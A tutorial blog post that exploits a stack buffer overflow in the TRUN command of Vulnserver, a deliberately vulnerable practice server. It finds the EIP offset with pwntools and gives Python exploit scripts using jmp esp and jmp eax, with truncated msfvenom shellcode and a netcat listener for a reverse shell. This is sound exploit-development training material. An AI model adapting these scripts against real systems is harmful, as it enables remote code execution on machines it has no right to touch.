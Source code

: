 ```yaml
---
layout: post
title: Vulnserver&colon; Buffer overflow in TRUN command
---
```


In this post we are going to analyze the crash we found previously in the TRUN command of Vulnserver by using our fuzzer. And we are also going to look at different ways of exploiting it.

# Analyzing the crash
As a reminder, the registers in Immunity Debugger looked like in the image below after the crash.

![]({{ site.baseurl }}/images/2/immunitydbg1.PNG)

From that we can see that we probably control EIP and we can also obtain the string we send to the application from the EAX register. So if we extract the string we obtain the following:

```c
TRUN /.:/AAAAAAAAAAAAAAAAAAA... //There's supposed to be 5000 As here
```

Our next step is going to be what is the offset in which we overwrite EIP so that we can control it properly. To do that we will use python and [pwntools](https://github.com/Gallopsled/pwntools), a python library that will help us in exploit development. We can simply install it by running **pip install pwntools** in the terminal in our Kali VM and we can check if it's intalled correctly simply by running **pwn update**.

![]({{ site.baseurl }}/images/2/pwntools1.PNG)

To get the offset of EIP we are going to substitute the sequence of 5000 As with a de Bruijn sequence which we will generate by using pwntools by running **pwn cyclic 5000** in the terminal. We can copy the output and then give it to Vulnserver manually by using netcat, make sure you are debugging the application with Immunity Debugger so that we cna analyze the crash.

![]({{ site.baseurl }}/images/2/vulnserver1.PNG)

Now if we look at the debugger there's a crash and in the Registers window we can see that now EIP is equal to 61616275, this number is part of our de Bruijn sequence but its represented in hexadecimal. To obtain its position in the sequence we can use pwntools again by running **pwn cyclic -l 0x61616275**, we appended *0x* to the beginning of our number to signal its in hex.

![]({{ site.baseurl }}/images/2/immunitydbg2.PNG)

![]({{ site.baseurl }}/images/2/pwntools2.PNG)

Now that we know our offset is 2003 let's test it by changing EIP to something easy to spot like 0xcafebabe. To make our job easier let's write a script in python using pwntools that connects to Vulnserver and sends the command.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.46"
port = 9999 

# Define the variables with the data we obtained.
cmd = "TRUN /.:/" # Command used and start of payload.
offset_eip = 2003 + len(cmd)
eip = 0xcafebabe # Address we want to overwrite EIP with.

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    },length=5000)

# Connect to the target and send the payload.
io = remote(ip,port)
io.readline()
io.sendline(payload)
```

Once we execute this script with python we produce a crash and if we check the debugger we can see that the EIP overwrite has worked corretly.

![]({{ site.baseurl }}/images/2/immunitydbg3.PNG)

# Exploiting
So finally it's time to start the fun part, executing whatever code we want in the victim. First we have to think where can we write the code we want to execute and how to move the execution to it. And in this case we have two options that we can see in the screen above, EAX which points to the beginning of our string or ESP which points to "aauf..." which if we check with **pwn cyclic -l aauf** is at offset 2017.

## Using ESP
Let's start with the option of using ESP since it's a bit easier, to do that we need to write our shellcode in the offset where ESP is pointing at and find an address in Vulnserver's execution that points to a jmp esp instruction. To achieve the later we can use the plugin mona.py in Immunity Debugger with the command **!mona jmp -r esp** and it will show us in the log all the different addresses we can use.

![]({{ site.baseurl }}/images/2/immunitydbg3.PNG)

So let's choose one of those addresses, for example 0x625011af and know we need to find some shellcode to execute, we can look for something on the internet like for example in [shell-storm](http://shell-storm.org/shellcode/) or even better we can create our own with the metasploit tool msfvenom.

![]({{ site.baseurl }}/images/2/msfvenom1.PNG)

Now what's left is simply putting together all the different parts which we can see in the code below.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.46"
port = 9999 

# Define the variables with the data we obtained.
cmd = "TRUN /.:/" # Command used and start of payload.
offset_eip = 2003 + len(cmd)
eip = 0x625011af # Address we want to overwrite EIP with, jmp esp in this case.

# Here we put the shellcode we want to execute.
offset_sc = 2017 # Offset of ESP.
shellcode =  "\x90"*15 # NOP sled for conflicts with the shellcode using the stack.
shellcode += "\xda\xc7\xb8\x19\xda\x3b\xc4\xd9\x74\x24\xf4\x5b"
shellcode += "\x2b\xc9\xb1\x52\x31\x43\x17\x03\x43\x17\x83\xda"
# ... shellcode keeps going but it's cut for brevity.

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    offset_sc:shellcode,
    },length=5000)

# Connect to the target and send the payload.
io = remote(ip,port)
io.readline()
io.sendline(payload)
```

After that we can set up a listener with netcat in port 4444 in our Kali VM and execute the python script. If you did everything correctly you should be able to see the following:

![]({{ site.baseurl }}/images/2/pwned1.PNG)

## Using EAX
This case is really similar to using ESP but we have to take into account that it's pointing to the beginning of the string and we can't modify the "TRUN /.:/" part since it's the one that runs the command. We need to find a jmp eax plus a value bigger than 9 or we also have another option, if we treat "TRUN /.:/", *54 52 55 4e 20 2f 2e 3a 2f* in hex, as instructructions, we can see that they don't actually modify the flow of our shellcode. We can disassemble them using the coommand **pwn disasm 54 52 55 4e 20 2f 2e 3a 2f**.

![]({{ site.baseurl }}/images/2/pwntools3.PNG)

So we just need to modify our previous code with the necessary offsets and addresses we obtain like in the previous method and our script will look something like this:

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.45"
port = 9999 

# Define the variables with the data we obtained.
cmd = "TRUN /.:/" # Command used and start of payload.
offset_eip = 2003 + len(cmd)
eip = 0x625011b1 # Address we want to overwrite EIP with, jmp eax in this case.

# Here we put the shellcode we want to execute.
shellcode =  "\x90"*16 # NOP sled for safety.
shellcode += "\x89\xC4\x83\xEC\x7C" # mov esp,eax; sub esp,0x7c
shellcode += "\xda\xc7\xb8\x19\xda\x3b\xc4\xd9\x74\x24\xf4\x5b"
shellcode += "\x2b\xc9\xb1\x52\x31\x43\x17\x03\x43\x17\x83\xda"
# ... shellcode keeps going but it's cut for brevity.

# Create our payload.
payload = fit({
    0:cmd + shellcode,
    offset_eip:eip,
    },length=5000)

# Connect to the target and send the payload.
io = remote(ip,port)
io.readline()
io.sendline(payload)
```

A really important point to make is that we added the instructions **mov esp,eax; sub esp,0x7c** to the beginning of our shellcode so that we don't get our shellcode overwriten when it uses the stack, the value *0x7c* is really important since it has to be a multiple of 4 to keep the stack aligned or some library calls will produce an error.

And that's it guys, see you in the next post!